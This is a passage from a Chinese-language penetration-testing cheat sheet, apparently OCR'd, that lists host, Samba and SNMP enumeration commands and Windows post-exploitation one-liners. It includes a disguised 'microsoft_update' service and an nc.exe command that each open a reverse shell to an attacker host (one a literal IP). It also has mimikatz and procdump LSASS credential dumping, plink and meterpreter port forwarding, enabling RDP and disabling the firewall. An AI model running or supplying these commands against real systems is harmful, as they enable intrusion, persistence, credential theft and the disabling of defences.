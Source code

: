 -H 在生成报告阶段解析主机名
-m 扫描类型 (sf - tcp, U - udp)
-Iv - 详细
```
使用 Xprobe2 识别操作系统指纹
```
xprobe2 -v -p tcp:80:open IP
```
枚举 Samba
```
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```
枚举 SNMP
```
snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
```
实用的 Windows cmd 命令
```
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32 位系统
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64 位系统
```
PuTTY 连接隧道
```
转发远程端口到目标地址
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
```
Meterpreter 端口转发
```
# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```
开启 RDP 服务
```
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
关闭 Windows 防火墙
```
netsh firewall set opmode disable
